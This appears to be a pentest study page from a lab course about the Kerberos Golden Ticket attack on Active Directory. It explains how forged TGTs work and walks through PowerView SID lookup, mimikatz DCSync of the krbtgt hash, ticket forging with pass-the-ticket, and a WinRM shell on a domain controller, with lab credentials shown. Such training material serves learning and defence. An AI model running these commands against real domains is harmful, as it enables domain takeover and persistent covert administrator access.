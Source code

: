 # Golden Ticket

- The **Golden Ticket** attack enables attackers to forge and sign TGTs (Ticket Granting Tickets) using the **krbtgt** account's password hash. When these tickets get presented to an AD server, the information within them will not be checked at all and will be considered valid due to being signed with krbtgt account's password hash. For example, it is possible to sign a ticket for a user that does not exist, such as **DoesNotExist**, have the ticket also say they are a Domain Administrator, and request a TGS (Ticket Granting Service) ticket which enables them to access remote machines. For stealth reasons, it is almost always better to utilize users that exist in the domain. However, putting fake information in the ticket can be a great way to show the impact and the lack of monitoring an organization has around these events. 

- One of the scariest things about the Golden Ticket attack is how often pentesters will gain access to this key; when performing **DCSYNC (using Mimikatz) or SecretsDump (using Impacket)**, the key is KRBTGT's NTLM hash. This account is special because changing its password has to be done twice and cannot be done in rapid succession. The AD Forest must reach full convergence, meaning the change has to replicate across the entire domain before it can be changed again. This is because this key is used for Domain Controllers to authenticate with each other! It should happen within 10 hours, but organizations typically wait 24 hours to minimize the chance of any issue. Within that time Window, if the attacker notices it changed and they grab it again, the process will have to be repeated. 


## Theory

- Following the **TGT request (AS-REQ)**, the Domain Controller sends the user back their TGT. The TGT is a piece of data that contains information about the user. All this information is contained in the **PAC (Privilege Attribute Certificate)**.

- The PAC is copied into each TGS ticket so that service accounts know who they are dealing with. Therefore, this information must be adequately protected so users cannot arbitrarily change it. 

- Domain Controllers use the key of the **krbtgt** account to encrypt TGTs; therefore, it is necessary to know the password of this account to modify a TGT. Within any AD environment, **krbtgt** is the most sensitive and vital account since it ensures that users belong to their appropriate/specific groups. 

- But what happens if an attacker steals the secret of the **krbtgt** account? Well, they can decipher any TGT, thus the PAC within it, arbitrarily modify its information (for example, by making it look like a user belongs to the Domain Admins group) and encrypt it again using the secret of **krbtgt**. This forged ticket is called a **Golden Ticket**. 

- Forging a golden ticket is an excellent technique to maintain persistence within an AD environment. Once full domain compromise is achieved, an attacker can extract the **NTLM hash of the krbtgt account** using **DCSync (or from the NTDS.DIT file using a variety of methods)**. This includes the **domain name, domain SID, name and RID of the account to impersonate (i.e., RID 500 for the built-in administrator account)**, and the RIDs of any groups the account should belong to; once we attain all four pieces of information, a Kerberos ticket can be forged for the target account. 

- Using a **Pass the Ticket** attack, we can import the golden tick to the current session to use tools in the context of the impersonated account. As an attacker, you can forge a ticket to impersonate a sensitive user, who, although privileged in access, may not be a member of heavily monitored groups, such as **Domain Admins and Enterprise Admins**. 


## Windows


Different elements are needed to forge a Golden Ticket: 

1. Domain Name
2. Domain SID
3. Username to Impersonate
4. KRBTGT's hash

- We already know the domain name; let's get the domain's SID by using **Get-DomainSID from PowerView**: 

### Retrieving Domain SID 

- RDP to 10.129.90.25 with user "htb-student" and password "HTB_@cademy_stdnt!"

	xfreerdp /v:10.129.90.25 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution /cert-ignore


	PS C:\Tools> Import-Module .\PowerView.ps1
	PS C:\Tools> Get-DomainSID
	S-1-5-21-1870146311-1183348186-593267556
	

![Get SID](/Ticket-Abuse/images/Get-SID.png) 

- Then, we need to have a compromised **krbtgt** account one way or another to get its NTLM hash. We can use **mimikatz** to forge a Golden Ticket when we have this information. If we compromised an account with DCSync privileges, we can use mimikatz to get the **krbtgt** hash using the following command. 

### Running Mimikatz get the KRBTGT Hash 


	PS C:\Tools> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
	  

	mimikatz # lsadump::dcsync /user:krbtgt /domain:inlanefreight.local
	

- We now have the **krbtgt** NTLM hash, which is **c0231bd8a4a4de92fca0760c0ba9e7a6**. To impersonate the Administrator account, we can use mimikatz to forge the Golden Ticket as follows: 

### Forging the Golden Ticket


	mimikatz # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:c0231bd8a4a4de92fca0760c0ba9e7a6 /ptt
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: c0231bd8a4a4de92fca0760c0ba9e7a6 - rc4_hmac_nt
	Lifetime  : 1/14/2024 3:59:03 PM ; 1/11/2034 3:59:03 PM ; 1/11/2034 3:59:03 PM
	-> Ticket : ** Pass The Ticket **

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Golden ticket for 'Administrator @ inlanefreight.local' successfully submitted for current session
	
- As we see on the last line (before exit), the Golden Ticket has been created and submitted for the current session. We can double-check this using the **klist command**.


### List the Golden Ticket in the Current Session

![klist](/Kerberos/Ticket-Abuse/images/klist.png) 

- So now have a valid TGT indicating we are **Administrator** and stating that we belong to several groups, including **Domain Admins**. If we need to request a service, we'll ask for a TGS ticket using this TGT, and a copy of the forged PAC will be embedded in the TGS ticket. For example, if we want to access a server using WinRM, we'll have a remote shell as **Administrator**. 


### Using WinRM with the Golden Ticket to Connect to DCO1

	PS C:\Tools> Enter-PSSession dc01
	

![Admin](/Kerberos/Ticket-Abuse/images/admin.png) 

- And if we come back to our original shell, we can see that we now have a TGS ticket for the **HTTP/dc01 SPN as Administrator**. 


### Reviewing the Ticket information 

![Tickets](/Kerberos/Tucket-Abuse/images/tickets.png) 

